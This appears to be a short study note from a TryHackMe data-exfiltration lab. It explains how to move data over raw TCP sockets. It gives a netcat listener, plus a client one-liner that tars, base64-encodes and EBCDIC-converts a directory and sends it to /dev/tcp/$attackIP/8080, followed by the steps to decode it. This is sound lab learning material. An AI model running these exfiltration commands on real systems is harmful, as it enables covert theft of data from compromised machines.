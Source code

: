 # Data Exfiltration with - TCP Sockets

Easy to detect as reliant on non-standard protocols only useful on network with no known secruity products.

1. Attacker listening over TCP/8080
2. Client connect to TCP/8080
3. Attacker establishes the connection
4. Sending and recieving of data starts

```bash
# Attacker
nc -lvp 8080 > /tmp/exfil.data &
# Client
# Get on here some how..
tar zcf - $data_dir/ | base64 | dd conv=ebcdic > /dev/tcp/$attackIP/8080
# Attacker
dd conv=ascii if=$file | base64 -d > $file.tar
tar xvf $file.tar
```

## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)